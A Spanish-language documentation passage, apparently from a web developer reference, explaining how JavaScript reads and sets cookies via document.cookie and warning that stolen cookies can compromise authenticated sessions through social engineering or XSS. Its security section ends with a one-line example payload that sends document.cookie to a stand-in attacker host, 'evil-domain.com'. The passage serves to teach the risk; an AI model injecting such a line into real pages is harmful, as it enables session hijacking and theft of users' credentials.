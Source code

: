 
También se pueden crear nuevas cookies con la propiedad Document.cookie y si no se establece el indicador HttpOnly, también se puede acceder a las cookies existentes desde JavaScript.

  ```
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
  ```

## Seguridad

Las cookies se utilizan a menudo en la aplicación web para identificar un usuario y su sesión autenticada. Así que robar una cookie de una aplicación web puede llevar a comprometer la sesión del usuario autenticado. Las maneras más comunes de robar cookies incluyen el uso de la ingeniería social o explotando una vulnerabilidad XSS en la aplicación.
  ```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
  ```
